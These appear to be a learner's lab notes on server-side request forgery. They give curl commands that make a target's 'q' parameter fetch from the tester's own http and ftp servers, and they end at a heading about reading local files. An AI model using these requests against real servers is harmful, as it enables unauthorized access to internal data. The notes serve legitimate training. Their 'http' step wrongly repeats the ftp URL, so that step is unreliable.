






SSRF against external systems
1. Request resource
curl -i -s -L http://<TARGET IP>
the q parameter could be vulnerable
2. Ip address on the VPN
3. Set up listener
4. Request our ip
 From our listener we got
 From the User-Agent we can see that the request is been issued by the target server using
Python-urllib5. Reading the
Python-urllib documentation, we can see it supports: http, ftp, file
Create index.html file
 1) http
python3 -m http.server 9090
curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"
2) ftp
sudo pip3 install twisted
sudo python3 -m twisted ftp -p 21 -r .
curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"
5) file (to retrieve Local Files)
